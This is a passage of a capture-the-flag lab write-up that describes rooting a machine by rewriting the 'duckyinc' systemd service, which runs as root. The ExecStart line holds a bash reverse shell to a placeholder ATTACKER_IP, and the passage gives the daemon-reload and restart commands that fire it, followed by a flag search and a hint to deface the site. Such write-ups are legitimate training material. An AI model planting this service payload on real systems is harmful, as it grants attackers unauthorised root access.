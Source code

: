 ```
[Unit]
Description=abc

[Service]
Type=simple
User=root
ExecStart=/bin/bash -c "bash -i >& /dev/tcp/ATTACKER_IP/5555 0>&1"

[Install]
WantedBy=multi-user.target
```

Now, when **duckyinc.service** is started, a reverse shell connection will be opened back to our local machine. Since the service is started as root, the reverse shell will be a privileged shell as well.

With the file saved, we make sure to start a netcat listener on our local machine.

Then, we open the reverse shell by **restarting** the duckyinc service (as it is already running):

```
sudo systemctl daemon-reload
sudo /bin/systemctl restart duckyinc.service
```

*(We have to reload the daemon first so that our changes to the duckyinc.service file will be registered)*

<img style="float: left;" src="screenshots/screenshot21.png">

With that, the reverse shell was successfully opened and we're now in as root!

Looking into /root, it seems that **flag3** is not inside... 

I used `find` and `grep` to try and locate flag3 on the machine, but I couldn't find it. After spending a long time searching, I decided to refer to the hint:

<img style="float: left;" src="screenshots/screenshot22.png">

If we refer back to our mission objectives, we know we need to **deface the main page** of the website.
